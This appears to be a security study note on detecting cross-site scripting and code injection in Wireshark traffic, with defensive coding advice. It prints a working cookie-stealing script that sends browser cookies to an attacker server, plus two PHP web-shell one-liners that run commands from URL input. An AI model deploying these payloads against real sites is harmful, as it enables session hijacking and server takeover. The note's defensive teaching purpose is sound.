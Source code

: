 ```yaml
---
title: 23. XSS & Code Injection Detection
updated: 2025-09-18 05:40:32Z
created: 2025-09-17 04:23:52Z
---
```


# Cross-Site Scripting (XSS) & Code Injection Detection

## 1\. What We’re Looking For

When analyzing traffic in Wireshark, suspicious HTTP requests going to **unexpected internal servers** can indicate an attack. If we see user **cookies or session tokens** being sent out in these requests, it’s a red flag for **XSS exploitation**.

- Example: Requests between `192.168.10.3` and `192.168.10.5` contain cookie values in the query string.
    
- In real-world cases, these values may not be in plain text — they could be **encoded** or **encrypted**.
    

* * *

## 2\. How XSS Works

- Attackers inject **malicious JavaScript** into a vulnerable web application (for example, a comment box or search field).
    
- When another user visits the page, their browser **executes the script**.
    
- The script can steal sensitive data like:
    
    - **Cookies**
        
    - **Session tokens**
        
    - **Authentication values**
        
- The stolen data is often sent to an attacker-controlled server.
    

* * *

## 3\. Example from the PCAP

Captured malicious script inside a user comment:

```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>

```

What this does:

- Waits until the page loads.
    
- Reads the victim’s cookies (`document.cookie`).
    
- Sends them via a GET request to the attacker’s server at `192.168.0.19:5555`.
    

If you followed this request in Wireshark, you’d likely see:

- **HTTP GET** containing the cookie in the URL
    
- Server response (could be `404 Not Found`, but the attacker already has the cookie)
    

* * *

## 4\. Code Injection Beyond XSS

Attackers may also attempt **server-side code injection** (e.g., via PHP). Two common examples:

### Remote Command Execution

&lt;?php system(\$\_GET\['cmd'\]); ?&gt;

- Attacker can run commands on the server by supplying `?cmd=whoami` in the URL.

### Single Command Execution

&lt;?php echo \`whoami\` ?&gt;

- Executes the `whoami` command and returns the result directly in the page output.

* * *

## 5\. Defensive Measures

To prevent XSS and code injection, apply **secure coding practices**:

1.  **Sanitize Input**
    
    - Strip or escape dangerous characters (`<`, `>`, `&`, `"`, `'`, etc.) from user input.
        
    - Use libraries or frameworks that enforce strong input validation.
        
2.  **Don’t Execute User Input as Code**
    
    - Never directly pass user input into interpreters like PHP’s `system()` or JavaScript’s `eval()`.
3.  **Other Best Practices**
    
    - Use Content Security Policy (CSP) to restrict what scripts can run.
        
    - Implement output encoding (e.g., display user input safely without letting it execute).
        
    - Regularly patch and update your web server and frameworks.
        

* * *

In short:

- **XSS = client-side attack** (steals cookies/tokens via browser).
    
- **Code injection = server-side attack** (executes arbitrary code on the server).
    
- Detection often shows up in **HTTP requests with abnormal payloads** (like cookies being exfiltrated).
    
- Prevention relies on **input handling + secure coding**.
    

&nbsp;